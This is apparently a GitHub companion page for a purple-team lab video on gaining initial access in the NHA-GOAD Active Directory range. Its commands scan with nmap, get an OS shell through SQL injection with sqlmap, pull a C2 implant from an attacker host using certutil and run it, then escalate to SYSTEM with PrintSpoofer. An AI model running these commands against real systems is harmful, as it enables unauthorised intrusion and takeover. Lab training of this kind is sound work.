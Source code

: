 ## **05 - Initial Access - Purple Team Cyber Range with NHA-GOAD**

This GitHub page is a companion to the fifth video in our **Purple Team Cyber Range** series, where we explore how to gain **initial access** using techniques such as **SQL injection** and other offensive tactics in the **NHA-GOAD** Active Directory lab environment. The lab is designed for attack and defense exercises, providing a realistic experience for both red and blue teams.

## 📺 **Watch the Video**

**Video Title**: _05 - Initial Access - Purple Team Cyber Range with NHA-GOAD_  
[Watch the video on YouTube](https://www.perplexity.ai/search/hello-jPst_9ZTTs.NcfMh.UjY1g#) (Placeholder for video link)

## 🛠️ **Key Takeaways**

1. **Initial Recon and Access**:
    
    - We start by performing a network scan using **Nmap** to identify open ports and services on the target machines.
    - After identifying potential vulnerabilities, we exploit them using **SQL injection** to gain initial access to the system.
    
2. **SQL Injection Exploitation**:
    
    - Learn how to use **SQLMap** to automate SQL injection attacks and gain access to the target database.
    - We also demonstrate how to escalate from SQL injection to an OS shell on the target machine.
    
3. **Command and Control (C2) Setup**:
    
    - Once initial access is gained, we set up a **Sliver C2 server** to manage the compromised machines.
    - We use reverse shells and other techniques to maintain persistent access.
    
4. **Privilege Escalation**:
    
    - After gaining initial access, we escalate privileges using tools like **SweetPotato** to obtain SYSTEM-level access.
    

## 📚 **Resources**

Here are some useful resources mentioned in the video:

- [NHA-GOAD Guide](https://docs.ludus.cloud/docs/environment-guides/goad-nha): Official documentation on setting up NHA-GOAD.
- [Elastic SIEM Guide](https://docs.ludus.cloud/docs/environment-guides/elastic): Guide on integrating Elastic Security SIEM.
- [GOAD GitHub Repository](https://github.com/Orange-Cyberdefense/GOAD): Source code and more information about GOAD from Orange Cyberdefense.

## Previous Videos:

- [Video 1: How to Deploy a Cyber Range Using Ludus: NHA-GOAD for Purple Teaming & Elastic Security SIEM](https://youtu.be/cjTzWQ_Si3U)
- [Video 2: How to Connect to Ludus GOAD with Elastic Using WireGuard](https://youtu.be/fM65Mm011bg)
- [Video 3: Testing Our Lab Against Default Sliver C2 Implants - The Lab Works!](https://youtu.be/L5DtvxOriOU)
- [Video 4: How to Install Sysmon in Active Directory Lab on Ludus](https://youtu.be/bK5Tnf92O-Y)

## 🚀 **Getting Started**

## 1. **Network Scanning**

Start by scanning the network to identify live hosts and open ports:



`nmap -p- -sC -sV 10.2.10.0/24 -Pn -oA allports.nmap`

![](../../05%20Images/Pasted%20image%2020241109225509.png)

This command performs a full port scan (`-p-`), service detection (`-sV`), and saves the results in multiple formats (`-oA`).

## 2. **SQL Injection Exploitation**

Once you've identified a vulnerable web server, use SQLMap to exploit SQL injection vulnerabilities:

`sqlmap -u "http://10.3.10.32/Students?SearchString=a&orderBy=Firstname" --os-shell --batch --threads 10`

This command attempts SQL injection on the specified URL and attempts to gain an OS shell.

## 3. **Command and Control (C2) Setup**


### Upload using sql shell
```
certutil.exe -split -f -urlcache http://10.2.10.99:8080/backup.exe 

#execute backup.exe
c:\windows\tasks\backup.exe
```


## 4. **Privilege Escalation**

To escalate privileges, upload a tool like SweetPotato or PrintSpoofer:

`upload /home/kali/payloads/PrintSpoofer.exe C:\\Windows\\Tasks\\PrintSpoofer.exe 
`execute -o "C:\windows\Tasks\PrintSpoofer.exe -i -c C:\Windows\Tasks\backup.exe"`

This command runs the PrintSpoofer tool, allowing you to escalate privileges from a local user account to SYSTEM.

![](../../05%20Images/Pasted%20image%2020241109225535.png)

## ⚠️ **Disclaimer**

This project is intended for **educational purposes only**. The tools and techniques demonstrated should only be used in environments where you have explicit permission to perform penetration testing or security assessments. Unauthorized use of these tools may violate laws and regulations.

## 🔧 **Tools Used**

- **Ludus Platform**: A cloud-based platform for deploying cybersecurity labs.
- **NHA-GOAD**: A pre-configured Active Directory environment designed for attack and defense simulations.
- **SQLMap**: An open-source tool used for automating SQL injection attacks.
- **Sliver C2 Framework**: An open-source command-and-control framework used by attackers for post-exploitation tasks.
- **SweetPotato/PrintSpoofer**: Tools used for privilege escalation on Windows systems.

Thank you for visiting! Be sure to subscribe to [I.T Security Labs on YouTube](https://www.youtube.com/@ITSecurityLabs) for more tutorials and updates!